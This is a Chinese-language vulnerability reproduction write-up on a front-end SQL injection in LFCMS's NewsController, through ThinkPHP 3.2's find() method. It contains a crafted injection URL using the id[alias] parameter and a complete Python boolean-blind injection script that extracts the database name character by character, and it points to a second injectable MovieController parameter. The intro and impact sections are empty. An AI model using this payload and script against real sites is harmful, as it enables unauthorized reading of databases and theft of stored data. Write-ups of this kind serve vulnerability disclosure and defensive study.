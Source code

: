 LFCMS NewsController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

回到lfcms，漏洞起始点位于`/Application/Home/Controller/NewsController.class.php`中的`index`方法，代码如下

![1.png](./.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId24.png)

在代码第六行调用了`News`模型中的`detail`方法，跟进该方法

![2.png](./.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId25.png)

可以看到在第八行进而调用了`tp`的`find`方法，在该版本中`find`方法是可以进行注入的，同时参数`$id`是我们可控的，首先我们来看一下正常的输入情况(图中域名为本地搭建解析)

![3.png](./.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId26.png)

根据`tp3.2`的注入点构造一下语句，访问如下链接

    http://www.0-sec.org/index.php/Home/News/index/?id[alias]=where id=1 and 1--

页面与正常访问相比没有变化，查看一下数据库日志，看下后端数据库语句![4.png](./.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId27.png)

可以看到在`id`处已经可以进行`sql`语句的拼接，也就证明该处是存在可利用的注入点的，由于本套程序对于错误信息是有屏蔽的，在这里我们很难利用报错注入带出数据，在该处可以考虑使用布尔类型的盲注，两种回显状态如下

![5.png](./.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId28.png)

![6.png](./.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId29.png)

接着写一下脚本（以查询数据库名为例）

    import requests
    url = 'http://lfcms.com/index.php/Home/News/index/?id[alias]=where id=1 and '
    result = ''
    for i in range(1,50):
        print('-----------------------------')
        for j in range(32,127):
            payload = 'if((ascii(substr((select database()),{},1))={}),1,0)--'.format(i,j)
            temp = url+payload
            try:
                html = requests.get(temp,timeout=10)
                if 'tttest' in html.text:
                    result+=chr(j)
                    print(result)
                    break
            except:
                print('[-]error')

结果如下

![7.png](./.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId30.png)

相同原理的利用点还有很多，如位于`/Application/Home/Controller/MovieController.class.php`中的`index`方法的`id`参数，这里就不再重复分析了

参考链接
--------

> https://xz.aliyun.com/t/7844
